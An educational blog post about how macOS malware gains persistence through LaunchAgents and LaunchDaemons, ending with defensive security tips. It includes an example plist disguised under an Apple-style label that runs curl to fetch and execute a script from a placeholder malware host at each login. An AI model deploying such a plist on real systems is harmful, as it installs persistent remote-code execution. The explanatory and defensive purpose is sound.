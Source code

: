 ```yaml
---
layout: post
title: "Malware Persistence Mechanisms: Exploring LaunchAgents and LaunchDaemons on macOS"
date: 2023-04-17 18:30:00 +0300
categories: security
---
```

Launch daemons and agents are the officially recommended method by Apple for maintaining the persistence of non-application binaries, such as software updaters, antivirus products, and more. Unfortunately, both launch daemons and launch agents are often exploited by macOS malware to achieve persistence. Launch daemons are non-interactive and run before user login, while launch agents run after the user has logged in and may be interactive. To create a persistent launched daemon or agent, one simply needs to create the binary and then place a configuration property list in one of the launch daemon or agent directories.

## Malware Persistence via LaunchAgents

One of the most prevalent methods for malware persistence on macOS involves the use of `LaunchAgents`. Each user on a Mac can have a dedicated `LaunchAgents` folder within their `Library` folder, which allows code to run every time that specific user logs in. Furthermore, there is a computer-level `LaunchAgents` folder that can execute code for all users upon login. Although there is a `LaunchAgents` folder for the system's own usage, macOS now manages it (since version 10.11), preventing malware from accessing this location by default, as long as System Integrity Protection remains enabled and uncompromised.

`LaunchAgents` are represented by property list files, which can either specify a file to execute or contain the commands to be executed directly. In Apple terminology, property lists (or 'plists') are XML files used by macOS to store serialized objects. For launch daemons and agents, there is a plist for each daemon or agent that contains the required configuration information. As part of the OS initialization process, these files are processed, and they can include key-value pairs that instruct the OS to automatically start the daemon or agent.

User `LaunchAgents` are the most common form of persistence in the wild, primarily because they do not require privileges for installation. Regrettably, Apple made the controversial decision to hide the parent Library folder from users by default, starting with OSX 10.7 Lion, inadvertently making it easier for threat actors to conceal these agents from less tech-savvy users.

Here is an example of a LaunchAgent property list file:

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.malware</string>
    <key>ProgramArguments</key>
    <array>
        <string>/bin/sh</string>
        <string>-c</string>
        <string>curl -O http://malware.com/malware.sh; sh malware.sh</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
</dict>
</plist>
{% endhighlight %}

The example above demonstrates how a script from a remote server can be downloaded and executed each time the user logs in.

## Persistence through LaunchDaemons

While `LaunchDaemons` only exist at the computer and system levels, they are technically intended for persistent code that does not interact with the user, making them ideal for malware purposes. Writing a daemon to `/Library/LaunchDaemons` requires administrator-level privileges. Nonetheless, as most Mac users are also admin users and often grant authorization for software installation, this requirement is not a significant obstacle and is frequently bypassed by infections in the wild.

## Strengthening System Security

Overall, while launch daemons and agents provide a legitimate and convenient way for software to maintain persistence on macOS, their simplicity and ease of use also make them vulnerable to exploitation by malware. Users and administrators should remain vigilant and monitor the contents of launch daemon and agent directories to detect any suspicious or unauthorized activity.

To further protect your system, consider adopting the following security practices:

1. Regularly update your operating system and applications to ensure you have the latest security patches.
2. Install a reputable antivirus solution and keep it up to date.
3. Be cautious when downloading software or opening email attachments, especially from unknown sources.
4. Limit user account privileges, using administrator accounts only when necessary.
5. Implement strong and unique passwords for all user accounts.
6. Enable macOS's built-in security features, such as FileVault for disk encryption and the built-in firewall.
7. Regularly back up your data to protect against data loss in case of a malware attack.

By understanding how malware leverages `LaunchAgents` and `LaunchDaemons` for persistence and implementing robust security measures, you can significantly reduce the risk of infection and protect your macOS system from threats in the wild.